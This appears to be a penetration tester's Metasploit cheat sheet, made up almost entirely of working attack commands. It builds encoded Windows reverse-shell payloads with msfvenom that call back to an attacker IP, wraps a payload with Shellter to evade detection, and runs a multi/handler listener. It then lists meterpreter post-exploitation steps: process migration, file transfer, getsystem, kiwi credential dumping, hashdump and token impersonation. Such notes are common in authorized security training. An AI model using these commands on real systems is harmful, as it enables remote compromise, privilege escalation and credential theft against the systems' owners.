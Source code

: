 # Metasploit

{% embed url="https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/handler" %}

{% embed url="https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/" %}

{% code overflow="wrap" %}
```
(-a x86)
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.173 LPORT=80 -e x86/shikata_ga_nai -i 7 -f raw -o shell.bin

shellter custom payload N stealth N DLL

sudo msfconsole -q -x "use exploit/multi/handler;\
set PAYLOAD windows/shell/reverse_tcp;\
set LHOST 192.168.119.173;\
set LPORT 80;\
run"

(set AutoRunScript post/windows/manage/migrate;\)
```
{% endcode %}

{% hint style="info" %}
need match payload in handler for msfvenom, use default `generic/reverse_tcp` for all other payloads eg `rev.ps1`
{% endhint %}

{% code overflow="wrap" %}
```
(-a x86)
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.173 LPORT=443 -e x86/shikata_ga_nai -i 7 -f exe -o shell.exe
```
{% endcode %}

### basic operations

{% code overflow="wrap" %}
```
meterpreter >

ps (check all process)
migrate {process id} (move current process to same priv process for better operation)
#e.g. explorer, svchost 

background (so that can start new listeners in exploit(multi/handler))
exit (!! kill the session and return to exploit(multi/handler))

upload /local/doc C:/dest/doc
download C:/dest/doc /local/doc
---------------------------------
normal shell (not meterpreter):
background
=========================

exploit(multi/handler) >

sessions -l (list sessions)
sessions -i # (go back to session #) 
-k to kill
run -j (start new listener on background)
show options
show advanced
jobs (show listener)
```
{% endcode %}

### `meterpreter >` exploit commands

```
getsystem (from medium integrity)
load kiwi
creds_msv
hashdump
(may need migrate to a valid process first)

use incognito
list_tokens -u
impersonate_token {interested user} (domain\\xx = domain\xx)
getuid
drop_token

load powershell
help powershell
```
